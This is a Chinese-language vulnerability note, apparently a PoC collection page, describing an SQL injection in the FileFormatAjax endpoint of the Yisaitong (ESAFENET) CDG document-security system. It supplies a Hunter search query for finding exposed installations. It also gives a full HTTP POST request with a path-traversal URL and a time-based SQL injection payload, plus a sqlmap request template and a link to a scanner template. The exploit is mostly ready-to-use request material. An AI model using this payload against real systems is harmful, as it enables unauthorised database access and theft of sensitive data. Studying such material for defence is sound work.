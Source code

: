 # 亿赛通电子文档安全管理系统FileFormatAjax存在SQL注入漏洞

# 一、漏洞简介
 亿赛通电子文档安全管理系统（简称：CDG）是一款电子文档安全加密软件，该系统利用驱动层透明加密技术，通过对电子文档的加密保护，防止内部员工泄密和外部人员非法窃取企业核心重要数据资产，对电子文档进行全生命周期防护，系统具有透明加密、主动加密、智能加密等多种加密方式，用户可根据部门涉密程度的不同（如核心部门和普通部门），部署力度轻重不一的梯度式文档加密防护，实现技术、管理、审计进行有机的结合，在内部构建起立体化的整体信息防泄露体系，使得成本、效率和安全三者达到平衡，实现电子文档的数据安全。亿赛通电子文档安全管理系统FileFormatAjax存在SQL注入漏洞，攻击者可通过该漏洞获取数据库敏感信息。

# 二、影响版本
+ 亿赛通电子文档安全管理系统

# 三、资产测绘
+ hunter`app.name="ESAFENET 亿赛通文档安全管理系统"`
+ 登录页面

![1693912211487-1ee3eb84-62a3-4c32-806a-6be32537dfb6.png](./img/ArO4K6L-C-r-Uxgf/1693912211487-1ee3eb84-62a3-4c32-806a-6be32537dfb6-628978.png)

# 四、漏洞复现
```plain
POST /CDGServer3/PerOrgServlet/../FileFormatAjax HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/120.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
Content-Type: application/x-www-form-urlencoded
Upgrade-Insecure-Requests: 1
 
command=delFileFormat&fileFormatId=12';WAITFOR DELAY '0:0:5'--
```

![1706854421336-072c0e24-f509-4147-b269-327ad3ae199a.png](./img/ArO4K6L-C-r-Uxgf/1706854421336-072c0e24-f509-4147-b269-327ad3ae199a-597539.png)

sqlmap

```plain
POST /CDGServer3/PerOrgServlet/../FileFormatAjax HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/120.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
Content-Type: application/x-www-form-urlencoded
Upgrade-Insecure-Requests: 1
 
command=delFileFormat&fileFormatId=12
```

![1706854564781-683677a7-30a0-4665-95a0-f5419f289abd.png](./img/ArO4K6L-C-r-Uxgf/1706854564781-683677a7-30a0-4665-95a0-f5419f289abd-491883.png)

[亿赛通电子文档安全管理系统-fileformatajax-sql注入.yaml](https://www.yuque.com/attachments/yuque/0/2024/yaml/1622799/1713621695064-99d7fb48-d6e7-42fc-a035-876619e42867.yaml)



> 更新: 2024-04-20 22:01:35  
> 原文: <https://www.yuque.com/xiaokp7/ocvun2/zxyf40yyez20bg4g>